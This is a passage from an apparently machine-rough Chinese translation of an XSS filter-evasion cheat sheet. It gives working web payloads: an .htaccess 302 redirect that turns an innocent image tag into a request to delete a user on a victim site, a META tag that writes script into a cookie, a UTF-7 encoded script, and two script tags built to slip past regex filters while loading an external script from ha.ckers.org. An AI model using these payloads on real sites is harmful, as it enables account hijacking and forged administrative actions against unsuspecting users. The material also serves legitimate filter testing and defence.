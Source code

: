 * * *

嵌入命令的IMG II
-----------

这是更加的可怕因为并没有特别的标识符去使它看起开来可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码<IMG SRC="a.jpg">可以是带有命令的xss向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个.htaccess（apche下）配置文件去完成这个向量。（感谢Timo为这部分。）

```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

```

* * *

Cookie篡改
--------

这是公认的不着边际，但是我已经发下一个例子是用 <META 去覆盖cookie。另一个例子是有些网站使用cookie中的某些数据去呈现在当前访问者的网页中为仅仅他自己而不是从远程数据库中获取。当这两个清静联系在一起的时候，你可以通过修改cookie让javascript输入到用户页面中。（你可以借此让用户退出，改变用户的状态，甚至让用户以你的身份登录）

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

```

* * *

UTF-7编码
-------

如果存在xss的页面没有提供页面charset header，或是对于任何被设为UTF-7 的浏览器，我们可以利用下面的代码。（感谢Roman Ivanov 的提供），点击这儿为这个例子。（如果页面设置是自动识别编码且content-types 没有被覆盖，在ie浏览器或使用了IE渲染引擎的 Netscape 8.1，咋你不需要声明 charset ）在没有改变编码的情况下它是不能工作在任何现代浏览器，这是为什么它被标记为完全不支持。Watchfire发现这个漏洞在Google's 自定义 404 脚本中.

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

```

* * *

使用HTML 引用封装的xss
---------------

他是被测试在ie，具体因情况而异。它是为了绕过那些可以输入 "<SCRIPT>" 但不允许输入 "<SCRIPT SRC..."，通过正则"/<script[^>]+src/i"进行过滤的xss过滤区。

```
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js">

```

为了执行xss代码在那些允许输入"<SCRIPT>" 但不允许 "<script src..."靠正则拼配"/<script((\s+\w+(\s_=\s_(?:"(.)_?"|'(.)_?'|[^'">\s]+))?)+\s_|\s_)src/i" （这个是重要的，因为我已经看到这个正则在实际环境中。）

```
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>

```
